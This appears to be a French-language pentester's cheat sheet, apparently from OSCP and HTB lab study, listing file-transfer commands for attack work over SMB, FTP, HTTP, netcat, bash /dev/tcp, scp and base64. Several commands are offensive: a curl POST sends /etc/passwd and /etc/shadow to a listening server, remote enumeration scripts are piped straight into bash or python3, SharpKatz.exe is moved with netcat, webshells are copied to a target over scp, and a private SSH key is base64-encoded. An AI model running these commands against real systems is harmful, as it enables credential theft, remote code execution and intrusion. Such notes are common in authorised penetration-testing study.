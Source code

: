 # Compression
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#compression
tar -zcvf firefox.tar.gz firefox
#décompression
tar -xf firefox.tar.gz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# SBM
Créer un serveur
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
impacket-smbserver -smb2support -username abc -password 123 TMP /home/corsaire/offsec/pen200/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Ajouter un partage
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo mount -t cifs -o username=plaintext,password=Password123,domain=. //192.168.220.129/Finance /mnt/Finance
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# FTP
Créer un serveur

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --write
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# HTTP
Créer un serveur
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#Téléchargement seulement
python3 -m http.server 80
#Avec téléversement
python3 -m uploadserver 80
#2.7
python2.7 -m SimpleHTTPServer
#php
php -S 0.0.0.0:8000
#ruby
ruby -run -ehttpd . -p8000
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Avec Apache
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo systemctl start apache2
sudo cp <fichier_a_copier> /var/www/html/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
busybox
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
busybox httpd -f -p 8080
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Avec certificat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo python3 -m pip install --user uploadserver
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
#téléchargement
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Infiltration
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
wget http://192.168.45.196/unix-privesc-check
#pour exécuter
chmod +x unix-privesc-check
#fileless
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# BASH >=2.04(HTTP)
compilé avec --enable-net-redirections

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#connexion
Corsaire@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
#GET
Corsaire@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
#Lecture
Corsaire@htb[/htb]$ cat <&3
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# SCP/SSH
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo systemctl start ssh
#vérifier
netstat -lnpt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
scp cve-2017-16995.c joe@192.168.123.216:
#Attention le chemin est toujours à la racine.
scp -P 2222 -r -i web01/anita_id_ecdsa anita@192.168.193.246:/var/www demo
scp -P 2222 -r -i web01/anita_id_ecdsa /usr/share/webshells/php/ anita@192.168.193.246:/home/anita
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Base64
Attraper avec NC
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
nc -lvnp 8000
echo <base64> | base64 -d -w 0 > hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#encoder
base64 shell -w 0
cat id_rsa |base64 -w 0;echo
#décoder
echo -n 'LS0...o=' | base64 -d > shell
#vérifier
md5sum shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Netcat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#écoute
nc -l -p 8000 > SharpKatz.exe
#Si on envoi depuis netcat, ferme automatiquement à la fin de l'envoi
nc -l -p 8000 --recv-only > SharpKatz.exe
#envoi
nc --send-only 192.168.49.128 8000 < SharpKatz.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Si on préfère attendre une connexion
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#Attendre une connexion et envoyer fichier
sudo nc -l -p 443 --send-only < SharpKatz.exe
#réception
nc 192.168.49.128 443 --recv-only > SharpKatz.exe
#récetion en bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Webdav (SMB/HTTP)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
sudo pip install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Living off the land
https://gtfobins.github.io/
utiliser +file download ou +file upload dans la recherche

# Encryption

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
#decrypte
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


